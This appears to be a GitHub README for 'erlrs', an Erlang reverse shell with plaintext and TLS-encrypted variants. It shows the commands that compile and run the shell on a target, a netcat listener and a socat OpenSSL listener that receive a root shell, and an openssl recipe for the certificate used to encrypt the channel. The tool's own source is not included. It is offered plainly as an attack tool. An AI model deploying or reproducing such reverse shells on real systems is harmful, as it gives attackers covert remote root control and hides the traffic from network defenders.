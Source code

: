 # erlrs

erlang based secure reverse shell


**Usage**

erlrs.erl *(plaintext)*

Target
```
root@WOPR-KALI:/opt/erlrs# erlc erlrs.erl 
erlrs.erl:13: Warning: variable 'Reason' is unused
erlrs.erl:24: Warning: variable 'Reason' is unused
root@WOPR-KALI:/opt/erlrs# erl -noshell -s erlrs main

```

Listener
```
root@WOPR-KALI:~# nc -lvnp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44983
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
^C
```

erlrss.erl *(tls)*

Target
```
root@WOPR-KALI:/opt/erlrss# erlc erlrss.erl 
erlrss.erl:13: Warning: variable 'Reason' is unused
erlrss.erl:24: Warning: variable 'Reason' is unused
root@WOPR-KALI:/opt/erlrss# erl -noshell -s erlrss main

```

Listener
```
root@WOPR-KALI:/opt/erlrss# socat openssl-listen:443,reuseaddr,fork,cert=/opt/erlrs/root.pem,cafile=/opt/erlrs/root.crt,verify=0 -
id
uid=0(root) gid=0(root) groups=0(root)
```

Create root.pem:

```
openssl req \
-x509 \
-newkey rsa:4096 \
-sha256 \
-days 3560 \
-nodes \
-keyout root.key \
-out root.crt \
-subj '/CN=target.com' \
-extensions san \
-config <( \
  echo '[req]'; \
  echo 'distinguished_name=req'; \
  echo '[san]'; \
  echo 'subjectAltName=DNS:target.com')
```

![Screenshot from 2019-11-23 00-17-47](https://user-images.githubusercontent.com/56988989/69469085-e3644700-0d86-11ea-899d-07bd4f801bb9.png)

